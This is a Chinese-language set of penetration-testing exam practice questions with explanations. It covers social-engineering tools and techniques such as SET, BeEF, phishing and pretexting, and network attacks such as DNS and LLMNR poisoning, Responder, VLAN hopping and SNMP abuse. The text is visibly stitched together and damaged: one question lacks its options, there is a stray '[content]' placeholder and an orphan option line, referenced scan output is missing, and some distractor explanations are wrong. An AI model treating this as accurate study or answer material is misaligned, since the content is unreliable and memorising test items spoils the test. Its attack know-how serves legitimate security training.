 **B** 是正确的。在给出的选项中，该描述最好定义了“钓鱼”一词。钓鱼可以通过电子邮件或电话进行，不仅测试了目标对安全威胁的意识，还测试了垃圾邮件过滤器和防火墙等技术防御。

 **A**、**C** 和 **D** 是错误的。**A** 是错误的，因为窥视本质上是秘密观察个人以收集如登录门户中的用户名和密码等敏感信息。**C** 是错误的，因为稀缺性是一种促使目标决策的动机因素，通常通过强调优惠或机会仅有的。**D** 是错误的，因为审讯是使用直接提问来获取信息。

### [4]. 如图所示工具是一个基于 Python 的框架，用于各种社会工程攻击，例如电子邮件钓鱼和基于网站的攻击。它称为什么？



A. SET
B. BeEF
C. GoPhish
D. Maltego

 **A** 是正确的。描述和所示的工具是 SET——社会工程工具包。SET 由 Dave Kennedy 编写，是一个能够处理负载生成、恶意网站创建与托管以及群发的强大框架。

 **B**、**C** 和 **D** 是错误的。**B** 是错误的，因为 BeEF（浏览器漏洞利用框架）是由 BeEF 项目开发的基于 Ruby 的框架，旨在通过客户端攻击向量辅助渗透测试。当 BeEF 成功攻击目标后，它可以利用受损的系统在浏览器范围内对目标进行进一步攻击。**C** 是错误的，因为 GoPhish 是由 Jordan Wright 开发的开源钓鱼框架。GoPhish 利用强大的 HTML 编辑器设计电子邮件模板和落地页，并使用任何 SMTP 邮件服务，使用户能够针对目标设计并部署钓鱼活动。**D** 是错误的，因为 Maltego 是一种 OSINT 收集框架，以其构建和说明各种数据点之间连接的能力而闻名。

### [5]. 下图工具是一个基于 Ruby 的框架，专注于渗透测试和专门针对网络浏览器的社会工程攻击。它称为什么？



A. GoPhish
B. BeEF
C. Maltego
D. SET

 **B** 是正确的。描述的工具是 BeEF。BeEF 全称为浏览器漏洞利用框架，是由 BeEF 项目开发的基于 Ruby 的框架，旨在通过客户端攻击向量辅助渗透测试。


**A**、**C** 和 **D** 都是错误的。**A** 错误，因为 `GoPhish` 是一个由 `Jordan Wright` 编写的开源钓鱼框架，它利用强大的全 HTML 编辑器来设计电子邮件模板和落地页，并使用任何 SMTP 邮件服务，使用户能够针对目标快速设计和部署钓鱼活动。**C** 错误，因为 `Maltego` 是一个 OSINT 收集框架，以构建和插图各种数据点之间的连接而闻名。**D** 错误，因为 `SET`——社会工程工具箱——是一个健壮的框架，能够处理负载生成、恶意网站的创建与托管以及大量发送邮件。

*后续五个问题请参考以下场景：*

你受雇对一家小型 IT 支持公司（约 50 人）进行渗透测试。评估的核心部分之一是关注员工的安全意识，并包含物理渗透测试。你开始时，一直等到深夜，从公司的垃圾桶中偷走垃圾袋，计划稍后翻找垃圾寻找密码或其他敏感信息。你还被要求运行一次钓鱼活动，并被给了一组可能被特定目标的个人。在执行活动时，你选择使用一个基于文本的框架，该框架可以生成负载、创建恶意文件并指示发送电子邮件。在物理渗透测试阶段，你不仅能够在伪装成现场火灾检查员检查喷淋系统时突破周边界，还能在员工打字时通过瞥一眼他们的肩膀来识别出该员工的用户名和密码。

### 6 .
偷取垃圾以寻找在渗透测试期间可能有用的敏感信息这一开场动作是以下什么的例子？

**A.** 审问 (Interrogation)

**B.** 翻垃圾桶 (Dumpster diving)

**C.** 水坑攻击 (Waterholing)

**D.** 钓鱼攻击 (Phishing)

**B** 是正确的。为了筛选敏感或有价值的信息而偷取公司垃圾是翻垃圾桶的例子。

**A**、**C** 和 **D** 都是错误的。**A** 错误，因为审问是使用精心设计的提问从目标处获取信息。**C** 错误，因为水坑攻击是使用内部信任的站点来存放恶意负载。**D** 错误，因为钓鱼攻击广义上是获取信息或预期操作的远程尝试，必然包含垃圾邮件、网络过滤器和防火墙评估等技术组件。

### 7 .
你会在哪份文档中确认在渗透测试期间被明确批准作为目标的名称和电子邮件地址？

**A.** 参与规则 (`RoE`)

**B.** 主服务协议 (`MSA`)

**C.** 参与前调查问卷 (Pre-engagement survey)

**D.** 保密协议 (Nondisclosure agreement)

**A** 是正确的。被批准作为目标的名称和电子邮件地址预计会在评估的参与规则中详细列出。

**B**、**C** 和 **D** 都是错误的。**B** 错误，因为 `MSA` 是双方之间的合同。**C** 错误，因为参与前调查问卷用于了解客户的环境。**D** 错误，因为保密协议 (`NDA`) 是保护专有信息的法律文件。

### 8 .
在以下选项中，哪个工具最可能被运行了？

**A.** `BeEF`

**B.** `Maltego`

**C.** `exim4`

**D.** `SET`

**D** 是正确的。最符合描述的工具是 `SET`，它可以处理负载生成、恶意网站的创建与托管以及大量邮件。

**A**、**B** 和 **C** 都是错误的。**A** 错误，因为 `BeEF` 是一个基于 Ruby 的客户端攻击框架。**B** 错误，因为 `Maltego` 是以构建和插图连接闻名的 OSINT 收集框架。**C** 错误，因为 `exim4` 是 Linux 系统的命令行邮件传输代理。

### 9 .
在场景中，你决定伪装成一名有合法进入现场的火灾检查员。创建这种身份是什么的例子？

**A.** 紧迫性 (Urgency)

**B.** 借口 (Pretexting)

**C.** 水坑攻击 (Waterholing)

**D.** 审问 (Interrogation)

**B** 是正确的。在社会工程努力中（无论是面对面、电话还是电子邮件）所假设的人格都是借口。它围绕着为渗透测试人员创建一个理由——借口。

**A**、**C** 和 **D** 都是错误的。**A** 错误，因为紧迫性是一种由严重程度和立即重要性定义的影响目标的驱动因素。**C** 错误，因为水坑攻击是使用内部信任的站点来存放恶意负载。**D** 错误，因为审问是使用精心设计的提问从目标处获取信息。

### 10 .
在现场期间，你使用何种社会工程技术识别出了有效的用户名和密码？

**B** 是正确的。观察他人输入的有效用户名和密码是从肩窥视的例子。


你受聘为一家大型跨国公司进行渗透测试。作为该项委托工作的一部分，他们要求你尝试对其员工进行社会工程攻击。你被告知可以针对任何你想要的员工，但客户希望在你执行攻击之前查看你的目标列表——而且在你的发起活动之前，他们不会提供任何目标电子邮箱地址。在研究过程中，你识别出了该机构数百名员工的电子邮箱地址，其中包括几位被列为设计消费级电器团队成员的员工、一些自称为系统管理员的人员，以及少数几个公司级高管人员。为了进行钓鱼攻击，你选择创建一个模仿常用 Web 应用程序的落地页，并生成一个可以损害用户 Web 浏览器的负载，通过该浏览器对客户的网络发起进一步的攻击。

**11 .** 鉴于客户提供的关于潜在社会工程目标的信息不足，以下哪种工具是侦察目标以识别关键信息、自动执行收集人员姓名或公司电子邮件架构等任务的最耗时效率最高的方法？

**A.** OSINT Framework

**B.** SET

**C.** `theharvester`

**D.** BeEF

**C** 是正确的。仅根据域名即可识别主机、IP 地址和电子邮件地址的能力，意味着 `theharvester` 在测试人员获得很少或没有信息的渗透测试中极具价值。其相对易用性意味着可以以最小的精力从互联网资源中筛选信息，使其成为信息收集更高效的起点。

**A** , **B** , 和 **D** 是错误的。**A** 是错误的，因为 OSINT Framework 是一个侧重于信息收集的静态网页，提供在侦察过程中使用的 Web 链接和资源，并能极大地帮助渗透测试人员进行数据挖掘过程。尽管在提供的有限信息下，它最终能引导渗透测试人员获得相当详尽的数据，但这很大程度上取决于渗透测试人员投入的时间和精力的。鉴于渗透测试始终是一个限时事件，对于更具可预测性的平庸任务，尽可能地实现自动化应该是总是受到欢迎的。**B** 是错误的，因为 SET 是一个强大的框架，能够处理负载生成、恶意网站的创建与托管以及大量邮件发送。**D** 是错误的，因为 BeEF 是一个由 The BeEF 项目开发的基于 Ruby 的框架，旨在通过关注客户端攻击向量来协助渗透测试。

**12 .** 允许组织在执行钓鱼活动之前查看你的目标列表这一请求最可能详细列在哪份文件中？

**A.** 主服务协议 (MSA)

**B.** 非披露协议 (NDA)

**C.** 参与规则 (RoE)

**D.** 书面授权信

**C** 是正确的。客户要求在执行钓鱼活动之前查看已识别的目标列表，这预计会详细列在针对特定评估的参与规则中。

**A** , **B** , 和 **D** 是错误的。**A** 是错误的，因为主服务协议 (MSA) 是一个总性文件，为两个或多个双方之间的未来交易和协议提供通用指南。**B** 是错误的，因为非披露协议 (NDA) 是一种保护业务专有信息和知识产权的保密协议。**D** 是错误的，因为书面授权信是作为渗透测试参与规则 (ROE) 部分提供的文件，它详细说明了客户组织对所进行评估的明确授权。

**13 .** 你选择专门为设计消费级电器的团队编写一封特定的钓鱼邮件。这属于什么示例？

**A.** 语音钓鱼 (Vishing)

**B.** 诱饵 (Baiting)

**C.** 水坑攻击 (Waterholing)

**D.** 鱼叉式钓鱼 (Spear phishing)

**D** 是正确的。针对这一特定团队是鱼叉式钓鱼的示例，因为渗透测试人员专门针对客户组织员工的特定子部门。

**A** , **B** , 和 **C** 是错误的。**A** 是错误的，因为语音钓鱼是指任何依赖电信网络进行语音通信（而非短信或其他文本服务）的钓鱼尝试；该词是“voice”（语音）和“phishing”（钓鱼）的组合词。**B** 是错误的，因为诱饵是一种动机因素，其定义为使用诱惑或引诱目标执行给定操作的手段。**C** 是错误的，因为水坑攻击是使用内部信任的站点来存放恶意负载。

**14 .** 你为这次活动另外制作了另一组钓鱼邮件：一组针对系统管理员，另一组针对公司人员。这属于什么示例？

**A.** 捕鲸式钓鱼 (Whaling) 目标

**B.** 水坑攻击 (Waterholing)

**C.** 诱饵 (Baiting)

**D.** 设戏法 (Pretexting)

**A** 是正确的。鉴于损害系统管理员和高管人员的工作站及个人账户可能造成的后果，这将是捕鲸式钓鱼的示例。

**B** , **C** , 和 **D** 是错误的。**B** 是错误的，因为水坑攻击是使用受破坏的信任站点来存放恶意负载。**C** 是错误的，因为诱饵是一种动机因素，其定义为使用诱惑或引诱目标执行给定操作的手段。**D** 是错误的，因为设戏法是为渗透测试人员创建一个理由——借口——使其出现在某地或请求某物。

**15 .** 以下哪种工具最适合损害用户 Web 浏览器，允许你利用它们对客户网络执行进一步的攻击？

**A.** SET

**B.** Maltego

**C.** BeEF

**D.** exim4

**C** 是正确的。BeEF——浏览器利用框架——是损害用户 Web 浏览器并进行进一步利用的最佳工具，因为它从底层就专门为这项任务设计。

**A** , **B** , 和 **D** 是错误的。**A** 是错误的，因为 SET 是一个强大的框架，能够处理负载生成、恶意网站的创建与托管以及大量邮件发送。**B** 是错误的，因为 Maltego 是一个 OSINT 收集框架，以其构建和阐明各种数据点之间联系的能力而闻名。**D** 是错误的，因为 exim4 是一个用于 Unix 和 Linux 族的简单邮件传输代理。


由于其本质上可以远程利用，基于网络的漏洞对于渗透测试人员来说是一个特别感兴趣的案例。正如其名称暗示的那样，它们所影响的服务和进程在没有网络访问的情况下通常是没用的，因此基于网络的漏洞通常可以成为进入目标网络的关键手段；例如，针对 `NetBIOS` 或 `SNMP` 的攻击可能会产生渗透测试人员在执行任务期间进一步利用的信息，甚至可以直接为目标系统提供 shell 访问。各种类型的中间人攻击可以向未经授权的个人泄露信息，而 `DNS cache 缓存投毒` 则可能导致合法流量被直接发送到恶意代理。这类漏洞之所以更加危险，是因为其受利用过程往往会影响到除托管相关服务的系统之外的系统。

鉴于其有效性和普遍性，渗透测试人员熟悉如何利用这类漏洞是明智之举。本章节将重点介绍基于网络的漏洞及其背后的概念，以及在渗透测试中用于利用这些漏洞的方法。

***

### Q QUESTIONS（问题）

***

**1 .** 哪种名称解析服务为内部和外部网络提供服务，并对发送到端口 `53/UDP` 的请求以及通过端口 `53/TCP` 的区域传输提供解析？

**A.** `NetBIOS`

**B.** `LLMNR`

**C.** `nslookup`

**D.** `DNS`

**2 .** 哪种基于网络的攻击通过用恶意 Web 地址覆盖名称解析缓存，导致目标用户访问恶意网站而非其想要访问的网站？

**A.** `DNS cache poisoning（投毒）`

**B.** `Waterholing（水池攻击）`

**C.** `ARP spoofing``

**D.** `Relay attack（中继攻击）`

**3 .** 此处显示的哪种工具用于针对 `DNS` 等各种协议和服务进行 MiTM 攻击？


**A.** `Ettercap`

**B.** `BeEF`

**C.** `Wireshark`

**D.** `TCPDump`

**4 .** 哪种基于网络的攻击针对使用 `NTLM` 认证的目标，通过通过在网络上冒充权威源的同时响应名称解析请求来实现，并在成功后导致目标向攻击者发送其用户名和 `NTLMv2` 哈希值？

**A.** `DNS cache poisoning（投毒）`

**B.** `LLMNR/NBT-NS poisoning（投毒）`

**C.** `Pass the hash（哈希传递攻击）`

**D.** `Downgrade attack（降级攻击）`

**5 .** 下图所示运行的哪种基于 Python 的工具通过充当伪造认证服务器投毒 `LLMNR`、`NBT-NS` 和 `MDNS` 服务，并破解用户名和密码哈希值？



**A.** `Responder`

**B.** `Ettercap`

**C.** `BeEF`

**D.** `Wireshark`

**6 .** 根据美国-CERT 的定义，当“攻击者试图阻止合法用户访问信息或服务”时发生的是哪类攻击？最常见的方法是洪水；其他包括资源泄露暴露和过度分配。

**A.** `Denial of service（拒绝服务攻击）`

**B.** `Replay attack（重放攻击）`

**C.** `SSL stripping（SSL 剥离）`

**D.** `ARP spoofing``

**7 .** 哪一类 `DoS` 攻击尝试直接崩溃服务，其严重程度以每秒请求数 (Rps) 衡量：

**A.** `Protocol attacks（协议攻击）`

**B.** `Volumetric attacks（流量攻击）`

**C.** `Amplification attacks（放大攻击）`

**D.** `Application attacks（应用层攻击）`

**8 .** 考虑以下 `hping3` 命令及其输出：



`-c` 标志的作用是？

**A.** 设置目标为 `10`

**B.** 发送 5 个数据包

**C.** 通过 `eth0` 接口发送

**D.** 设置间隔为 250 毫秒

**9 .** 哪种命令行工具允许未经授权的人员捕获网络流量以泄露信息？

**A.** `Wireshark`

**B.** `Responder`

**C.** `tcpdump`

**D.** `hping3`

**10 .** 考虑此处显示的 `Scapy` 的包结构：



向目标发送该包的目的是什么？

**A.** `GET`

**B.** `SMB` 请求

**C.** `UDP`

**D.** `ICMP` 

**11 .** 针对生成树协议 (`STP`) 伪造恶意桥接数据单元（BPDUs）以导致网络环路，以下哪项描述了这种方法？

**A.** 利用 `STP` 的实现漏洞

**B.** 伪造网络的 MAC ID

**C.** 针对 `STP` 缺乏认证的漏洞

**D.** 针对 `STP` 发送 `ICMP` 洪水

**12 .** 哪种 VLAN 跳技术通过为源自默认 VLAN 的流量添加未经授权的 VLAN 标签，由交换机转发到目标，从而绕过第 3 层访问方案？

**A.** `Double tagging（双重标记攻击）`

**B.** `Switch spoofing（交换机欺骗攻击）`


**C.** `SSL flooding`

**D.** `Amplification（放大攻击）`

**13 .** 以下哪项*不是*绕过网络访问控制（NAC）的方法？

**A.** 利用网络实现中的漏洞

**B.** 冒充公司 IT 代表并说服 COO 通过电话提供 VPN 凭据

**C.** 利用网络配置中的漏洞

**D.** 违反现有的信任关系

**14 .** `SNMP` 是一种行业标准网络监控协议，允许用户在网络上收集和更改有关设备的信息。以下哪些是 `SNMP` 或其版本可以被利用的特性？（选择两项）

**A.** 攻击者在 `SNMPv3` 中仅需要社区字符串即可写入访问。

**B.** 可以伪造 Trap 通知，允许攻击者拦截旨在修复所谓故障的 SetRequests。

**C.** `SNMPv1` 和 `v2` 的认证仅需要使用的社区字符串，该字符串在管理器与其代理之间明文传输。

**D.** 系统默认社区字符串（通常 `public` 用于只读访问，`private` 用于写入访问）。

**15 .** 以下哪种工具允许渗透测试人员在提供授权凭据的情况下，针对开启 `SMB` 共享或未开启 `SMB` 共享的 Windows 目标执行任意命令？

**A.** nmap 脚本 `smb-enum-shares.nse`

**B.** `enum4linux.pl`

**C.** Metasploit 中的 `psexec` 模块 (`exploit/windows/smb/psxec`)、Windows Sysinternals 或 Core Security 的 `impacket` 套件

**D.** （无）


[content]

### C. onesixtyone

**[16].** 考虑此处显示的 nmap 扫描输出（为了简洁已进行编辑）。


应该检查以下哪些脚本或命令，以确定此特定版本的 ProFTPD 是否容易通过已知的后门受到远程攻击？（选择两个。）

**A.** `nc -nv <Target IP address> 212`
**B.** nmap 脚本 `ftp-proftpd-backdoor.nse`
**C.** `searchsploit proftpd`
**D.** nmap 脚本 `ftp-bounce.nse`

**[17].** SMTP 配置不当可能导致“开放中继（open relays）”，这允许匿名用户连接。渗透测试员如何在渗透测试期间利用此类配置错误？

**A.** 使用中继将恶意流量路由到另一个网络
**B.** 连接到 `TCP/25` 上的中继以尝试识别有效的电子邮箱地址
**C.** 使用中继向内部或外部目标发送电子邮件，同时伪造电子邮箱地址
**D.** 通过监控其公共和私有社区字符串来嗅探网络上的继流量

***

### 快速答案对照

***

**[1].** D
**[2].** A
**[3].** A
**[4].** B
**[5].** A
**[6].** A
**[7].** D
**[8].** B
**[9].** C
**[10].** D
**[11].** C
**[12].** A
**[13].** B
**[14].** C, D
**[15].** C
**[16].** B, C
**[17].** C

***

### 深度解析 A

***

**[1].** 哪种名称解析服务为内部和外部网络，为发送到端口 `53/UDP` 的请求以及通过 `53/TCP` 的区域传输提供解析？

**A.** NetBIOS
**B.** LLMNR
**C.** nslookup
**D.** DNS

 **D** 正确。`DNS` 是一种名称解析服务，为内部和外部网络提供解析，在 `53/UDP` 上监听并通过 `53/TCP` 提供区域传输。

 **A**、**B** 和 **C** 错误。**A** 错误，因为 `NetBIOS`（网络输入输出系统）是一种用于实现跨网络应用程序通信的服务，除了数据报分发和会话管理外还提供主机名解析。`NetBIOS` 监听端口 `137/UDP`、`138/UDP` 和 `139/TCP`。**B** 错误，因为 `LLMNR`（链路本地多播名称解析）模拟了 `DNS` 的功能，但专门针对同一本地网络上的系统，从而减少了到 `DNS` 服务器的流量。`LLMNR` 监听端口 `5355/UDP`。**C** 错误，因为 `nslookup` 是一个用于查询 DNS 服务器的工具，而不是名称解析服务。

**[2].** 哪种基于网络的攻击通过用恶意的 Web 地址覆盖名称解析缓存，导致用户访问恶意站点而不是他们想要访问的站点？

**A.** DNS 缓存污染
**B.** 水坑攻击 (Waterholing)
**C.** ARP 欺骗
**D.** 中继攻击 (Relay attack)

 **A** 正确。描述的攻击是 `DNS 缓存污染`——有时也称为 DNS 欺骗。

 **B**、**C** 和 **D** 错误。**B** 错误，因为`水坑攻击` 是一种社会工程技术，攻击者在目标网站中嵌入恶意代码或文件。**C** 错误，因为 `ARP 欺骗` 是在网络上伪造权威源的 ARP（地址解析协议）攻击。**D** 错误，因为 `中继攻击` 是在网络上伪造权威源的攻击。`ARP 欺骗` 的目标是让流量经过攻击者，从而渗透测试员或攻击者可以可以嗅获流量。`ARP 欺骗` 攻击是针对在网络上通过伪造权威源来进行中间人攻击。

**[3].** 哪种工具（此处所示）用于针对各种协议（如 DNS）实施中间人攻击？



**A.** Ettercap
**B.** BeEF
**C.** Wireshark
**D.** TCPDump

 **A** 正确。所示的工具是 `Ettercap`。`Ettercap` 主要用于针对 DNS、`ARP`、FTP 等协议进行中间人攻击。它具有图形界面和命令行执行选项。

 **B**、**C** 和 **D** 错误。**B** 错误，因为 `BeEF` 是一个基于 Ruby 的框架，由 BeEF 项目开发，通过关注客户端攻击向量来协助渗透测试。请参考第 5 题中的 BeEF 截图。**C** 错误，因为 `Wireshark` 是一种网络协议分析器。它可以用于网络故障排除或软件开发——或者在渗透测试的情况下，验证网络安全或拦截明文通信（如通过 `HTTP` 发出的 GET 请求）。**D** 错误，因为 `TCPDump`（与 `Wireshark` 类似）是一种网络协议分析器。它与 `Wireshark` 的主要区别在于 `TCPDump` 没有图形界面，并且缺乏 `Wireshark` 中的某些便利功能，如数据包的排序和过滤。

**[4].** 哪种基于网络的攻击针对使用 NTLM 认证的目标，通过伪造网络上的权威源来响应名称解析请求，并在成功后导致目标将其用户名和 NTLMv2 哈希发送给攻击者？

**A.** DNS 缓存污染
**B.** LLMNR/NBT-NS 污染
**C.** 哈希传递 (Pass the hash)
**D.** 降级攻击

 **B** 正确。此处描述的攻击是 `LLMNR/NBT-NS 污染`。攻击成功后，渗透测试员或恶意代理可以利用 `hashcat` 或 `John the Ripper` 破解 `NTLMv2` 哈希值以发现明文密码，从而获得有效的授权凭据对。攻击者也可以在随后的哈希传递攻击中使用该哈希值。


 **A**、**C** 和 **D** 是错误的。**A** 是错误的，因为 DNS 缓存投毒（DNS cache poisoning）是指攻击者冒充授权的 DNS 服务器，用恶意地址覆盖解析缓存，导致目标用户访问恶意站点而非他们想要访问的站点。**C** 是错误的，因为传递哈希值（passing the hash）是一种攻击技术，它将有效的 `LM` 或 `NTLM` 哈希值传递给服务或系统，允许攻击者伪造该哈希值对应的用户名。**D** 是错误的，因为降级攻击（downgrade attack）发生在中间人拦截从目标系统到远程服务器的 `TLS` 流量并丢弃请求时。由于目标系统没有收到来自目标服务器的响应，应用程序逻辑指示目标服务器可能尝试使用不安全的协议重新协商连接。通过反复执行降级攻击，目标系统可能被强制使用 `SSLv3` 而不是 `TLS`。这一点意义重大，因为 `SSLv3` 整体而言是一种较弱的通信协议，依赖于旧的加密算法。

### 5 . 在插图中，哪种基于 Python 的工具通过作为恶意名称服务器来投毒 LLMNR、NBT-NS 和 MDNS 服务，并破坏用户名和密码哈希值？


**A.** Responder
**B.** Ettercap
**C.** BeEF
**D.** Wireshark

 **A** 是正确的。图中显示的工具是 `Responder`，一个基于 Python 的工具，它通过作为恶意名称服务器简化名称解析过程并破坏用户名和哈希值，能够响应 `LLMNR`、`NBT-NS` 和 `MDNS` 请求。

 **B**、**C** 和 **D** 是错误的。**B** 是错误的，因为 `Ettercap` 虽然可以完全从命令行运行并通过中间人类型的流量拦截操作，但并不针对 `LLMNR`。问题 3 显示了 `Ettercap` 界面的示例。**C** 是错误的，因为 `BeEF` 是一个由 `BeEF Project` 开发的基于 Ruby 的框架，旨在通过关注客户端攻击向量来协助渗透测试；请参考问题 5 获取 `BeEF` 界面的示例。**D** 是错误的，因为 `Wireshark` 是一个网络协议分析器。它可以用于常规网络故障排除或软件开发——或者在渗透测试中，用于验证网络安全或拦截明文通信（例如通过 `HTTP` 发出的 `GET` 请求）。

### 6 . 根据 US-CERT，当“攻击者试图阻止合法用户访问信息或服务”时发生的是哪一类攻击？最常见的方法是洪水；其他还包括资源泄露和过度分配。

**A.** 拒绝服务 (Denial of service)
**B.** 重放攻击 (Replay attack)
**C.** SSL 剥离 (SSL stripping)
**D.** ARP 欺骗 (ARP spoofing)

